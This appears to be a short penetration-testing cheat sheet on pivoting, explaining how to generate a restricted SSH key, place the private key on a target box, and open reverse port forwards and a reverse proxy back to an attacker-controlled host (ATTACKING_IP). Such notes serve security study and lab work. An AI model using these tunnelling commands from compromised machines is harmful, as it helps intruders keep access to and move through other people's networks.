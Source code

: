 ## Access your machine from the target using your creds (NOT ADVISED) or a key based system

#### 1: ssh-keygen to generate a new set of SSH keys, then store them somewhere safe.

#### 2: Copy the contents of the public key (.pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine.

#### You may need to create the "~/.ssh" directory and "authorized_keys" file first.

#### 3: On a new line type the following, then paste in the public key:

### Command = "echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty *

#### * This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

#### 4: Check if the SSH server is running:

#### sudo systemctl status ssh

#### sudo systemctl start ssh

#### 5: Transfaer the private key to the target box.

#### 6: Connect back with a reverse port forward:

### ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

#### reverse proxy: ssh -R PORT USER@ATTACKING_IP -i KEYFILE -fN
